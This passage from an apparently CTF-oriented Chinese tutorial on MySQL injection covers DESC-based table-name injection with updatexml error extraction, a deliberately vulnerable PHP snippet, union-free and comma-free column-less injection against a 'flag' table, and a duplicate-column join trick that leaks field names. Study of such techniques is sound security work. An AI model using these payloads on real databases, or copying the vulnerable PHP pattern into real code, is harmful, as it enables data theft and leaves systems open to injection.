 **shop_users 后面的两个``,做了shop_users 表的别名,所以无影响。**
**这时候desc的语句为:**

```mysql
desc `shop_users` `where updatexml(1,concat(0x5e24,(select user()),0x5e24),1)#`
```

### 1.9.2 表名不完全可控且DESC的表名不含identifier quote,SELECT的表名含有identifier quote

```mysql
mysql_connect("localhost","root","root");
mysql_query("use b2cshop");
$table = $_GET['table'];
mysql_query("desc shop_{$table}") or die("DESC 出错:".mysql_error());
$sql = "select * from `shop_{$table}` where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```

## 1.10 无列名注入

### 1.10.1 别名

**`union (select 1,2,c from (select 1,2 c union select * from flag)b) limit 1,1`**

**或者**

**`union (select 1,2,c from (select 1,2 as c union select * from flag) as b) limit 1,1`**

**或者绕过逗号**

```mysql
select c from (select * from (select 1 `a`)m join (select 0 `i`)o join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from flag)x;
```

### 1.10.2 变量

**需要一个请求两个注入**

## 1.11 可报错时爆表名、字段名、库名

### 1.11.1 字段名

**上文介绍可以使用无列明注入，但是如果再进行限制,不允许使用union 该怎么破呢？**

**`select * from admin where id=1 and (select * from (select * from admin as a join admin as b) as c)`**

**把当前表第一个字段成功爆出来了。**

**这个的原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。**
